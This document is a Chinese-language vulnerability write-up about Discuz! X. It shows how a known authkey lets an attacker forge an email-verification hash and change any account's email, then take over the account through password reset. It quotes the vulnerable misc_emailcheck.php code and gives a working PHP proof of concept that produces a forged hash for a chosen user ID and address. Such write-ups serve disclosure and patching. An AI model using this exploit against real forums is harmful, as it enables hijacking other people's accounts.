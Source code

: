 ```yaml
---
title: Discuz authkey 重置任意账户邮箱
id: zhfly2869
---
```


# Discuz! X authkey 重置任意账户邮箱

## 一、漏洞简介

需要得到authkey

## 二、漏洞影响

## 三、复现过程

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

![image](../img/e45577b48e06c8f4162fe5f04745111a.png)

验证链接类似于

```
http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F 
```

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

```
<?php
/**
 *      [Discuz!] (C)2001-2099 Comsenz Inc.
 *      This is NOT a freeware, use is subject to license terms
 *
 *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
 */
if(!defined('IN_DISCUZ')) {
	exit('Access Denied');
}
$uid = 0;
$email = '';
$_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
if($_GET['hash']) {
	list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
	$uid = intval($uid);
}
// exit($email);
if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
	$member = getuserbyuid($uid);
	$setarr = array('email'=>$email, 'emailstatus'=>'1');
	if($_G['member']['freeze'] == 2) {
		$setarr['freeze'] = 0;
	}
	loaducenter();
	$ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
	if($ucresult == -8) {
		showmessage('email_check_account_invalid', '', array(), array('return' => true));
	} elseif($ucresult == -4) {
		showmessage('profile_email_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -5) {
		showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -6) {
		showmessage('profile_email_duplicate', '', array(), array('return' => true));
	}
	if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
		$membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
		$setarr['groupid'] = $membergroup['groupid'];
	}
	updatecreditbyaction('realemail', $uid);
	C::t('common_member')->update($uid, $setarr);
	C::t('common_member_validate')->delete($uid);
	dsetcookie('newemail', "", -1);
	showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
} else {
	showmessage('email_check_error', 'index.php');
}
?> 
```

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

```
list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16)))); 
```

然后经过一次判断

```
 if($uid && isemail($email) && $time > TIMESTAMP - 86400) { 
```

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5("authkey")

```
<?php
        //Enter your code here, enjoy!
function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
	$ckey_length = 4;
	$key = md5($key ? $key : UC_KEY);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);
	$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);
	$result = '';
	$box = range(0, 255);
	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}
	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}
	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}
	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}
}
echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16))); 
```

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

![image](../img/bc9cfa547901cae61dd5aae991537ce7.png)

## 参考链接

> https://lorexxar.cn/2017/08/31/dz-authkey/#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85